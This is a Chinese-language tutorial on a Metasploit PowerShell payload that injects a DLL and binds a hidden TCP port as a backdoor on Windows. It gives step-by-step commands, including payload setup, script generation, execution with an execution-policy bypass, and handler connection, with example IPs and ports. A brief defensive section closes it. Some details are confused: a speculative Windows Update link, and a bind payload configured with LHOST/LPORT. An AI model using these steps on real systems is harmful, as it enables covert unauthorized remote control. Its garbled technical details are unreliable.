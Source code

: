 `patchupdllinject` 是 Metasploit 框架中的一种 payload，主要用于利用 Windows 系统中的特定漏洞，通过 DLL 注入技术来实现远程代码执行和控制。结合 `bind_hidden_tcp`，它通过绑定一个隐藏的 TCP 端口来增加隐蔽性，使攻击者可以通过这个隐藏端口远程控制受害者的系统。

### `patchupdllinject` 详解

1. **概念**：
   - **DLL 注入**：DLL 注入是一种技术，通过将一个动态链接库（DLL）注入到另一个进程的地址空间中，使得注入的 DLL 代码在该进程中执行。这种技术常用于恶意软件和渗透测试中，实现进程劫持、数据窃取或远程控制。
   - **Windows Update 机制**：Windows Update 是 Windows 系统的一部分，用于自动更新操作系统和应用程序。`patchupdllinject` 可能利用 Windows Update 相关的进程进行注入。

2. **工作原理**：
   - `patchupdllinject` payload 生成一个 PowerShell 脚本，通过 DLL 注入技术将恶意代码注入到 Windows 系统的特定进程中。
   - 结合 `bind_hidden_tcp`，它在目标系统上绑定一个隐藏的 TCP 端口，等待攻击者连接。
   - 一旦连接建立，攻击者可以通过这个隐藏的端口实现对目标系统的远程控制。

3. **用途**：
   - **隐蔽访问**：通过绑定隐藏的 TCP 端口和 DLL 注入，增加了后门的隐蔽性和安全性。
   - **远程控制**：提供一个绑定的隐藏端口，攻击者可以通过这个端口实现远程控制和后渗透操作。

### 使用 `patchupdllinject/bind_hidden_tcp` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `cmd/windows/powershell/patchupdllinject/bind_hidden_tcp` payload：
   ```sh
   use payload/cmd/windows/powershell/patchupdllinject/bind_hidden_tcp
   ```

2. **设置选项**：
   配置目标参数，如目标 IP 地址、端口等：
   ```sh
   set RHOST <target_ip>
   set RPORT <target_port>
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和传输脚本**：
   生成包含 DLL 注入和隐藏绑定端口的 PowerShell 脚本：
   ```sh
   generate -f ps1 -o patchupdllinject_bind_hidden_tcp.ps1
   ```
   将生成的 PowerShell 脚本传输到目标系统。

4. **执行 PowerShell 脚本**：
   在目标系统上执行传输的 PowerShell 脚本，启动 DLL 注入并绑定隐藏的 TCP 端口。

### 示例

以下是使用 `cmd/windows/powershell/patchupdllinject/bind_hidden_tcp` payload 的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/cmd/windows/powershell/patchupdllinject/bind_hidden_tcp
   set RHOST 192.168.1.100
   set RPORT 4444
   set LHOST 192.168.1.200
   set LPORT 5555
   ```

2. **生成 PowerShell 脚本**：
   ```sh
   generate -f ps1 -o patchupdllinject_bind_hidden_tcp.ps1
   ```

3. **传输和执行脚本**：
   将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
   ```sh
   powershell -ExecutionPolicy Bypass -File patchupdllinject_bind_hidden_tcp.ps1
   ```

4. **连接到隐藏的 TCP 端口**：
   使用 Metasploit 连接到目标系统上的隐藏端口，获取远程控制权限：
   ```sh
   use exploit/multi/handler
   set PAYLOAD cmd/windows/powershell/patchupdllinject/bind_hidden_tcp
   set LHOST 192.168.1.200
   set LPORT 5555
   exploit
   ```

### 安全注意事项

- **检测和防御**：监控网络流量，特别是异常的 TCP 端口连接和 DLL 注入活动，使用入侵检测系统（IDS）进行实时监控。
- **权限控制**：限制用户执行 PowerShell 脚本的权限，并启用严格的 PowerShell 执行策略。
- **日志审计**：启用详细的日志记录，审计系统中的 DLL 注入和网络连接活动，以便及时发现和响应潜在的攻击。

### 总结

`cmd/windows/powershell/patchupdllinject/bind_hidden_tcp` 是一种结合 DLL 注入和隐藏绑定端口技术的 Metasploit payload。它通过 PowerShell 脚本在 Windows 系统上实现恶意 DLL 注入，并绑定一个隐藏的 TCP 端口，使攻击者可以通过这个端口实现远程控制和后渗透操作。这种方法增加了后门的隐蔽性和安全性，同时也提高了攻击的复杂性。管理员应采取适当的安全措施来检测和防御此类攻击。